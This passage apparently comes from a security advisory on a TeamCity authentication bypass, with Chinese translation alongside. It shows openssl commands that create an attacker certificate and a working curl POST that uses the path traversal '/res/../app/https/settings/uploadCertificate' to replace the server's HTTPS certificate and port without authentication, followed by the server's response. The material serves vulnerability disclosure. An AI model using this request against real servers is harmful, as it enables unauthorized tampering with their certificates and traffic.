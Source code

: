 Another interesting endpoint to target is the `/app/https/settings/uploadCertificate` endpoint. This allows an unauthenticated attacker to upload a new HTTPS certificate of the attacker’s choosing to the target TeamCity server, as well as change the port number the HTTPS service listens on. For example, we can generate a self-signed certificate with the following commands:  
另一个有趣的目标端点是 `/app/https/settings/uploadCertificate` 端点。这允许未经身份验证的攻击者将攻击者选择的新 HTTPS 证书上传到目标 TeamCity 服务器，并更改 HTTPS 服务侦听的端口号。例如，我们可以使用以下命令生成自签名证书：

```vbnet
C:\Users\sfewer\Desktop>openssl ecparam -name prime256v1 -genkey -noout -out private-eckey.pem

C:\Users\sfewer\Desktop>openssl ec -in private-eckey.pem -pubout -out public-key.pem
read EC key
writing EC key

C:\Users\sfewer\Desktop>openssl req -new -x509 -key private-eckey.pem -out cert.pem -days 360
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:US
State or Province Name (full name) [Some-State]:HaxorState
Locality Name (eg, city) []:HaxorCity
Organization Name (eg, company) [Internet Widgits Pty Ltd]:HaxorOrganization
Organizational Unit Name (eg, section) []:HaxorUnit
Common Name (e.g. server FQDN or YOUR name) []:target.server.com
Email Address []:

C:\Users\sfewer\Desktop>openssl pkcs8 -topk8 -nocrypt -in private-eckey.pem -out hax.key
```

An unauthenticated attacker can perform a POST request with a path of `/res/../app/https/settings/uploadCertificate` in order to upload a new HTTPS certificate.  
未经身份验证的攻击者可以使用 `/res/../app/https/settings/uploadCertificate` 路径执行 POST 请求，以便上传新的 HTTPS 证书。

```yaml
C:\Users\Administrator\Desktop>curl -vk --path-as-is http://172.29.228.65:8111/res/../app/https/settings/uploadCertificate -X POST -H "Accept: application/json" -F certificate=@hax.pem -F key=@hax.key -F port=4141
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 172.29.228.65:8111...
* Connected to 172.29.228.65 (172.29.228.65) port 8111 (#0)
> POST /res/../app/https/settings/uploadCertificate HTTP/1.1
> Host: 172.29.228.65:8111
> User-Agent: curl/7.83.1
> Accept: application/json
> Content-Length: 1591
> Content-Type: multipart/form-data; boundary=------------------------cdb2a7dd5322fcf4
>
* We are completely uploaded and fine
* Mark bundle as not supporting multiuse
< HTTP/1.1 200
< X-Frame-Options: sameorigin
< Strict-Transport-Security: max-age=31536000;
< X-Content-Type-Options: nosniff
< X-XSS-Protection: 1; mode=block
< Referrer-Policy: origin-when-cross-origin
< mixed-content: noupgrade
< TeamCity-Node-Id: MAIN_SERVER
< Content-Type: application/json
< Content-Length: 0
< Date: Thu, 15 Feb 2024 14:06:02 GMT
<
```